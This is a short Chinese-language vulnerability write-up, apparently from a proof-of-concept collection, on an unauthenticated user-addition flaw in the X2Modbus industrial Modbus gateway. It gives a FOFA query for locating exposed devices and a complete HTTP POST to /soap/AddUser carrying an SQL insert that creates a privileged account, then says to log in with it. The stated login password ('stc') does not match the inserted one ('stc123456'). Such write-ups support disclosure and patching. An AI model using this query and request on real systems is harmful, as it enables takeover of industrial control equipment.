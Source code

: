 # 上海迅饶自动化科技有限公司X2Modbus网关任意用户添加漏洞

# 一、漏洞简介
X2Modbus是上海迅饶自动化科技有限公司开发的一款功能很强大的协议转换网关， 这里的X代表各家不同的通信协议， 2是To的谐音表示转换， Modbus就是最终支持的标准协议是Modbus协议。用户可以根据现场设备的通信协议进行配置，转成标准的Modbus协议。在PC端仿真运行无误后，上传到硬件协议转换网关。上海迅饶自动化科技有限公司X2Modbus网关任意用户添加漏洞

# 二、影响版本
+ X2Modbus

# 三、资产测绘
+ fofa`server="SunFull-Webs" || icon_hash="-1384370370"`
+ 特征

![1710416347834-b54d34ac-c701-4de7-aa01-4e4e7792c936.png](./img/ypZ9XWVltXmWxcJb/1710416347834-b54d34ac-c701-4de7-aa01-4e4e7792c936-329773.png)

# 四、漏洞复现
```java
POST /soap/AddUser HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 111
Connection: close
Referer: 
Cookie: language=zh-cn; language=zh-cn

insert into userid (USERNAME,PASSWORD,PURVIEW,LOGINDATE,LOGINTIME) values('stc','stc123456','1','2024-4-8','0:31:43')
```

![1712507596517-ebcb5e1f-fb34-499d-8d66-6f1190d8f714.png](./img/ypZ9XWVltXmWxcJb/1712507596517-ebcb5e1f-fb34-499d-8d66-6f1190d8f714-655700.png)

使用添加的账户`stc/stc`登录系统

![1712507789057-5844ddbc-3b9b-4941-83bd-4af254f8508a.png](./img/ypZ9XWVltXmWxcJb/1712507789057-5844ddbc-3b9b-4941-83bd-4af254f8508a-197429.png)



> 更新: 2024-04-16 16:50:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lyagwfg3rha3y0xp>